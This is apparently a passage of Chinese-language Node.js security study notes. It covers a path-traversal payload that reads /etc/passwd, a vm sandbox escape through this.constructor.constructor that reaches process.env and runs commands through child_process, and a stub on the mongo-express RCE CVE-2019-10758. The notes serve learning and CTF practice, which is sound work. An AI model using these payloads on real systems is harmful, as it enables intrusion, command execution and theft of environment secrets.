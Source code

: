 遇到了试一下就完了

```js
/static/../../../a/../../../../etc/passwd
```



## vm沙箱逃逸

用vm库可以创建一个沙箱sandbox，阻止沙箱程序影响到进程

如下代码，创建沙箱执行代码

```js
const vm = require('vm');
const sandbox = {};
const script = new vm.Script("this.constructor.constructor('return this.process.env')()");
const context = vm.createContext(sandbox);
env = script.runInContext(context);
console.log(env);
```

创建vm环境时，要先初始化一个对象sandbox。这个对象就是vm脚本执行的全局环境context，Script中的this，在执行`script.runInContext(context);`时就指的sandbox

sandbox.constructor指sanbox的构造函数，也就是Object

sandbox.constructor.constructor指Object.constructor，也就是Function，表示Object的构造函数对象本身

Function('return this.process.env')()就是个自执行函数

即遇到vm沙箱，也能执行沙箱外的代码。上述代码能用runInNewContext代替

```js
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);
```

配合`chile_process.exec()`就可以执行任意命令

```js
const vm = require("vm");
const env = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('whoami').toString()`);
console.log(env);
```



## CVE-2019-10758:mongo-express RCE

```js
npm install mongo-express@0.53.0 
```

vm逃逸

https://xz.aliyun.com/t/7056
